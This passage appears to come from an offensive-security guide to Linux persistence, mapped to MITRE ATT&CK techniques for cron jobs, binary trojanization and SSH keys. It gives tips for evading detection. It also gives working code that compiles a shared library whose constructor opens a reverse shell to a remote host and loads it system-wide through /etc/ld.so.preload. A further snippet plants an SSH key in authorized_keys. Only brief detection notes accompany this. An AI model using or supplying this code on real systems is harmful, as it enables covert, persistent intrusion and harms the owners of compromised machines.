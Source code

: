 **Specific ATT&CK Mapping**:
- Crontab modification directly implements T1053.003
- Scheduled tasks provide both persistence and execution capabilities

**Operational Security**:
- Use realistic timing for scheduled tasks
- Consider rare schedules (e.g., once daily) to reduce detection chance
- Delay execution after boot to avoid immediate detection

### Compromise Client Software Binary (T1554)

This involves modifying legitimate binaries to maintain persistence.

**Binary Trojanization**:
```bash
# Extract binary
cp /usr/bin/legitimate_tool /tmp/

# Add malicious code (simplified example)
cat >> /tmp/malicious_addition.c << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void __attribute__((constructor)) init() {
    if (fork() == 0) {
        system("bash -c 'bash -i >& /dev/tcp/192.168.1.100/4444 0>&1'");
        exit(0);
    }
}
EOF

# Compile the malicious addition
gcc -shared -fPIC /tmp/malicious_addition.c -o /tmp/malicious.so

# Replace the original binary
cp /tmp/malicious.so /usr/lib/
echo "/usr/lib/malicious.so" >> /etc/ld.so.preload
```

**Specific ATT&CK Mapping**:
- Binary modification implements T1554
- Trojanized software executes malicious code alongside legitimate functionality

**Detection Considerations**:
- File integrity monitoring may detect binary modifications
- Hash verification can identify altered executables
- Unusual library loading might trigger security alerts

### External Remote Services (T1133)

This involves using external remote access services for persistence.

**SSH Keys**:
```bash
# Generate an SSH key pair
ssh-keygen -t rsa -b 4096 -f ~/.ssh/persistence_key -N ""

# Add to authorized keys on target
mkdir -p ~/.ssh
echo "ssh-rsa AAAA..." >> ~/.ssh/authorized_keys
chmod 700 ~/.ssh
chmod 600 ~/.ssh/authorized_keys
```
